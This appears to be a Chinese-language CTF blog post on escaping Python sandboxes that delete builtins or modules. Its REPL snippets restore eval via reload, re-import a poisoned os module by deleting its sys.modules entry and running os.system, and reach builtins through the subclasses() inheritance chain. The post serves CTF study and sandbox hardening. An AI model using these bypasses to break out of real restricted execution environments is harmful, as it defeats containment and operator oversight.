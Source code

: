 ```yaml
---
title: pyjail bypass-01 绕过删除模块或方法
date: 2023-05-30 10:23:57
categories:
- Python
tags:
- pyjail
toc: true
---
```



## 绕过删除模块或方法

在一些沙箱中，可能会对某些模块或者模块的某些方法使用 `del` 关键字进行删除。
例如删除 builtins 模块的 eval 方法。
```py
>>> __builtins__.__dict__['eval']
<built-in function eval>
>>> del __builtins__.__dict__['eval']
>>> __builtins__.__dict__['eval']
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
KeyError: 'eval'
```

### reload 重新加载
reload 函数可以重新加载模块，这样被删除的函数能被重新加载
```py
>>> __builtins__.__dict__['eval']
<built-in function eval>
>>> del __builtins__.__dict__['eval']
>>> __builtins__.__dict__['eval']
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
KeyError: 'eval'
>>> reload(__builtins__)
<module '__builtin__' (built-in)>
>>> __builtins__.__dict__['eval']
<built-in function eval>
```
在 Python 3 中，reload() 函数被移动到 importlib 模块中，所以如果要使用 reload() 函数，需要先导入 importlib 模块。

### 恢复 sys.modules
一些过滤中可能将 `sys.modules['os']` 进行修改. 这个时候即使将 os 模块导入进来,也是无法使用的.
```py
>>> sys.modules['os'] = 'not allowed'
>>> __import__('os').system('ls')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute 'system'
```
由于很多别的命令执行库也使用到了 os,因此也会受到相应的影响,例如 subprocess
```py
>>> __import__('subprocess').Popen('whoami', shell=True)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/kali/.pyenv/versions/3.8.10/lib/python3.8/subprocess.py", line 688, in <module>
    class Popen(object):
  File "/home/kali/.pyenv/versions/3.8.10/lib/python3.8/subprocess.py", line 1708, in Popen
    def _handle_exitstatus(self, sts, _WIFSIGNALED=os.WIFSIGNALED,
AttributeError: 'str' object has no attribute 'WIFSIGNALED'
```
由于 import 导入模块时会检查 sys.modules 中是否已经有这个类，如果有则不加载,没有则加载.因此我们只需要将 os 模块删除,然后再次导入即可.
```py
sys.modules['os'] = 'not allowed' # oj 为你加的

del sys.modules['os']
import os
os.system('ls')
```

### 基于继承链获取
在清空了 `__builtins__`的情况下，我们也可以通过索引 subclasses 来找到这些内建函数。
```py
# 根据环境找到 bytes 的索引，此处为 5
>>> ().__class__.__base__.__subclasses__()[5]
<class 'bytes'>
```


## 参考资料
- [Python沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
- [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
- [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
- [python沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
- [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
- [[PyJail] python沙箱逃逸探究·上（HNCTF题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
- [[PyJail] python沙箱逃逸探究·中（HNCTF题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
- [[PyJail] python沙箱逃逸探究·下（HNCTF题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
- [audited2](https://ctftime.org/writeup/31883)
- [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
- [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
- [Python沙箱逃逸的n种姿势](https://ctftime.org/writeup/28286)
- [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)